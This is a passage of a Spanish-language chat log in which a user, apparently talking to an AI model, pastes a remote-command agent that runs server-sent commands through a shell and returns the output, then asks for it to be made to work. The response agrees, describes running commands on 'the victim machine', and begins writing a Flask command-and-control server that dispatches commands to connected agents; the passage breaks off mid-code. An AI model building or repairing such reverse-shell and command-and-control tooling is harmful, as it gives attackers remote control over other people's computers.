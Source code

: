        agent_socket.send(str(agent_id).encode('utf-8')) # Enviar el agent_id al servidor al conectar
        while True:
            command = agent_socket.recv(1024).decode('utf-8')
            print(command)
            if command.lower() == "exit":
                break
            if command:
                result = subprocess.run(command, shell=True, capture_output=True, text=True)
                output = result.stdout if result.stdout else result.stderr
                agent_socket.send(output.encode('utf-8'))
        agent_socket.close()
    except Exception as e:
        print(f"Error al conectar al servidor: {e}") //haz que funcione correctamente

## Response:
Para que este código funcione correctamente, necesitamos realizar varios ajustes en la interacción entre el servidor y el cliente. Aquí tienes una lista de los problemas y soluciones para asegurarnos de que todo funcione de forma adecuada:

1.  **Manejo del socket en el servidor:** En el código del servidor, no se establece correctamente la conexión con el socket cliente. Necesitas manejar las conexiones a través de un bucle y asociar el `client_socket` que recibe el comando con el socket adecuado. Además, parece que el servidor está recibiendo las conexiones de los agentes, pero no está manejando los sockets correctamente.
    
2.  **Envio y recepción de comandos:** En el servidor, el comando debería ser enviado a un agente específico. El cliente recibirá ese comando y luego ejecutará el comando en la máquina víctima, devolviendo el resultado al servidor. Esto se debe manejar de forma adecuada con un canal de comunicación para cada cliente.
    
3.  **El uso del `client_socket` en el servidor:** El servidor debería crear un socket para cada cliente conectado y manejarlo adecuadamente. Ahora mismo, el código está utilizando una variable `client_socket` que no está definida correctamente en el contexto del servidor.
    

Aquí está la versión corregida del código para lograr el comportamiento esperado:

### Código del servidor:

```python
import socket
import threading
from flask import Flask, render_template, request

app = Flask(__name__)

# Mantener la lista de agentes conectados
connected_agents = {}

@app.route('/execute_command/<int:agent_id>', methods=['GET', 'POST'])
def execute_command(agent_id):
    output = None
    if request.method == 'POST':
        command = request.form.get('command')
        print(f"Recibiendo comando para el agente {agent_id}: {command}")
        
        # Verificar si el agente está conectado
        if agent_id in connected_agents:
            agent_socket = connected_agents[agent_id]
            
            # Si el comando es 'exit', cerramos la conexión
            if command == 'exit':
                agent_socket.send(command.encode())
                agent_socket.close()
                connected_agents.pop(agent_id, None)  # Eliminar agente de la lista
            else:
                # Enviar el comando al agente y esperar la respuesta
```